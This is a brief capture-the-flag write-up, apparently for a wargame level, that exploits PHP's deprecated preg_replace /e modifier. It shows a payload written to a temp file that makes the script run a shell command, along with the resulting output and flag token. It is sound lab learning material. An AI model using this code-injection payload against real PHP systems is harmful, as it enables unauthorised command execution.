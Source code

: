 ## Command injection in PHP exe

First, I tried to compile the .php file and it gave me a warning during the compilation :

```Warning: preg_replace(): The /e modifier is no longer supported```

Then, I searched for a exploit with this modifier, I found that the second argument from ```preg_replace``` is interpreted as code and not as a string.
So, I just added this in the second argument in a tempory file which I inject in executable argv[1] :

```echo '[x {${exec(getflag)}}]' > /tmp/oui```

And I got this result when I started the executable :

```
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1```

